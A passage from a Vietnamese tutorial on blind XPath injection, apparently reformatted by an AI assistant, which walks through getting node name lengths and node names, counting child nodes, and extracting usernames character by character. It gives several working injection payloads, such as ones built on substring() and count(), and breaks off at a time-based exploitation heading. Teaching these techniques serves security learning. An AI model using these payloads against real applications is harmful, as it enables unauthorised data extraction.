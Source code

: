 **Giải thích:**
- `/*[1]` chọn node gốc
- Nếu truy vấn không trả về kết quả:
  - Cần tăng giá trị độ dài
  - Cho đến khi tìm được độ dài chính xác
- Ví dụ: Độ dài tên của node gốc là 5

Tôi sẽ giúp định dạng lại nội dung trên theo Markdown để dễ đọc hơn:

# 6.5. Trích xuất tên của node

Sau khi biết độ dài tên node, chúng ta có thể trích xuất từng ký tự bằng cách sử dụng hàm `substring()`.

**Payload ví dụ:**
```xpath
invalid' or substring(name(/*[1]),1,1)='a' and '1'='1
```

**Giải thích:**
- Payload này kiểm tra xem ký tự đầu tiên của tên node có phải là 'a' hay không
- Lặp qua tất cả các ký tự cho đến khi trích xuất được toàn bộ tên, ví dụ: users

# 6.6. Trích xuất số lượng node con

Để xác định số lượng node con, sử dụng hàm `count()`:

```xpath
invalid' or count(/users/*)=1 and '1'='1
```

**Giải thích:**
Truy vấn này trả về dữ liệu nếu số lượng node con là 1. Tăng giá trị cho đến khi tìm được số lượng chính xác.

# 6.7. Trích xuất dữ liệu từ node con

Sau khi xác định cấu trúc schema, chúng ta có thể trích xuất dữ liệu từ các node con.

**Payload trích xuất độ dài tên người dùng:**
```xpath
invalid' or string-length(/users/user[1]/username)=1 and '1'='1
```

**Payload trích xuất từng ký tự:**
```xpath
invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1
```

**Giải thích:**
Lặp qua từng ký tự cho đến khi trích xuất được toàn bộ tên người dùng, ví dụ: admin

# 6.8. Khai thác dựa trên thời gian xử lý (Time-based Exploitation)
